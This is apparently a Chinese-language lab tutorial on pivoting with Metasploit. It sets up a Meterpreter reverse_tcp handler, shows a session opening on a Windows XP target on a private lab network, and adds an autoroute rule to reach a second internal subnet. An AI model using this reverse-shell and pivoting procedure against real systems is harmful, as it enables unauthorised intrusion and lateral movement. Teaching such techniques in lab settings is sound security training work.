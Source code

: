 以社工等方法获取到xp主机的shell
通过metasploit会话，使用Windows xp靶机作为跳板，扫描和攻击内部网络主机
```r
#kali msf
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.252.128
lhost => 192.168.252.128
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.252.128:4444 
[*] Sending stage (180291 bytes) to 192.168.252.130
[*] Meterpreter session 1 opened (192.168.252.128:4444 -> 192.168.252.130:1814) at 2019-11-16 12:44:58 +0800

meterpreter > ifconfig

Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1


Interface  2
============
Name         : AMD PCNET Family PCI Ethernet Adapter - rface
Hardware MAC : 00:0c:29:dd:e6:94
MTU          : 1500
IPv4 Address : 192.168.85.129
IPv4 Netmask : 255.255.255.0


Interface  3
============
Name         : VMware Accelerated AMD PCNet Adapter - rface
Hardware MAC : 00:0c:29:dd:e6:9e
MTU          : 1500
IPv4 Address : 192.168.252.130
IPv4 Netmask : 255.255.255.0
```
可以看到xp是双网卡，发现另一内网段 192.168.85.0/24。

对该内网进行渗透
1. 添加内网的路由

    ```r
    meterpreter > run autoroute -s 192.168.85.0/24    #添加目标网段路由规则，获取内部网络访问通道
    meterpreter > route flush  #不用的时候,记得删掉就行
    ```
    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-16%2016-15-39%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)
